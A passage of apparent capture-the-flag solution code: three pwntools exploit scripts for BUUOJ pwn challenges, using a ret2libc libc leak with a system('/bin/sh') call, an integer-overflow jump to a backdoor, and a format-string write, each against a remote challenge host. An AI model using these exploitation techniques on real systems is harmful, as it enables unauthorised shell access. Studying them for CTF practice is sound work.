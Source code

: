 ```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27132)
elf = ELF('./pwn')

poprdi_ret = 0x400733

payload = cyclic(0x20 + 8) + p64(poprdi_ret) + p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['vuln'])

io.sendlineafter(b'tell me u story!\n', payload)
puts = u64(io.recv(6) + b'\x00\x00')

libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

print(hex(base))
print(hex(sys))
print(hex(binsh))

payload = cyclic(0x20 + 8) + p64(poprdi_ret) + p64(binsh)
payload += p64(sys)
payload += p64(elf.symbols['vuln'])
io.sendlineafter(b'tell me u story!\n', payload)

io.interactive()
```
# buu023-bjdctf_2020_babystack2

```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25497)
elf = ELF('./pwn')

io.sendlineafter(b'[+]Please input the length of your name:', b'-1')

io.sendlineafter(b'[+]What\'s u name?', cyclic(16+8) + p64(elf.symbols['backdoor']))

io.interactive()
```
# buu024-jarvisoj_fm
```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29021)
elf = ELF('./pwn')

io.sendline(fmtstr_payload(11, {0x804A02C: 4}))

io.interactive()
```
